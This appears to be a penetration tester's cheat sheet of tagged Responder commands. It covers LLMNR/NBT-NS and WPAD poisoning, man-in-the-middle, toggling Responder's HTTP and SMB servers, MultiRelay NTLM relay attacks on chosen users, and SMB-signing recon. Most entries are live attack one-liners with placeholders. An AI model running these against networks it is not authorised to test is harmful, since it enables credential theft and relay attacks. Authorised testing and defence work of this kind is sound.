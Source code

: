 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## analyze mode (no poisoning)
#tag/responder
```
responder –I <interface> -A
```

## poison
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I <interface>
```
## poison with another ip
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I <interface> -e <ip>
```

## poison with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I <interface> --wpad
```

## turn http on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## turn http off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'HTTP ='
```

## turn smb on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## turn smb off 
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /usr/share/responder/Responder.conf && cat /usr/share/responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## check smb signing
#plateform/linux #target/remote #cat/RECON 
```
responder-runfinger -i <ip_range>
```
